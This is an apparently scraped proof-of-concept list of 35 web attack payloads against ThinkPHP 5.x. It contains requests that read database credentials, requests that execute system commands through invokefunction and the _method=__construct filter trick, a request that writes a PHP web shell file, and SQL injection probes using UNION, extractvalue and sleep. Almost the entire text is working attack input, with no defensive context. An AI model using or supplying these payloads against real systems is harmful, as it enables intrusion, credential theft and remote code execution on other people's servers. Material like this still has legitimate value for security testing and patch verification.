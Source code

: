 POC：</br>
# thinkphp 5.0.22</br>
1、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username</br>
2、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password</br>
3、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id</br>
4、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
# thinkphp 5</br>
5、http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1</br>
# thinkphp 5.0.21</br>
6、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id</br>
7、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
# thinkphp 5.1.*</br>
8、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1</br>
9、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd</br>
10、http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E</br>
11、http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E</br>
12、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
13、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd</br>
14、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
15、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd</br>
# Unknown version</br>
16、?s=index/\think\module/action/param1/${@phpinfo()}</br>
17、?s=index/\think\Module/Action/Param/${@phpinfo()}</br>
18、?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}</br>
19、index.php?s=/home/article/view_recent/name/1' </br>
    header = "X-Forwarded-For:1') and extractvalue(1, concat(0x5c,(select md5(233))))#"</br>
20、index.php?s=/home/shopcart/getPricetotal/tag/1%27</br>
21、index.php?s=/home/shopcart/getpriceNum/id/1%27</br>
22、index.php?s=/home/user/cut/id/1%27</br>
23、index.php?s=/home/service/index/id/1%27</br>
24、index.php?s=/home/pay/chongzhi/orderid/1%27</br>
25、index.php?s=/home/pay/index/orderid/1%27</br>
26、index.php?s=/home/order/complete/id/1%27</br>
27、index.php?s=/home/order/complete/id/1%27</br>
28、index.php?s=/home/order/detail/id/1%27</br>
29、index.php?s=/home/order/cancel/id/1%27</br>
30、index.php?s=/home/pay/index/orderid/1%27)%20UNION%20ALL%20SELECT%20md5(233)--+</br>
31、POST /index.php?s=/home/user/checkcode/ HTTP/1.1</br>
    Content-Disposition: form-data; name="couponid"</br>
    1') union select sleep('''+str(sleep_time)+''')#</br>
# thinkphp 5.0.23 (full version) debug mode</br>
32、(post)public/index.php (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx</br>
# thinkphp 5.0.23 (full version)</br>
33、（post）public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al</rb>
# thinkphp 5.0.10 (full version)</br>
34、(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system</rb>
# thinkphp 5.1.* and 5.2.* and 5.0.*</br>
35、(post)public/index.php (data)c=exec&f=calc.exe&_method=filter

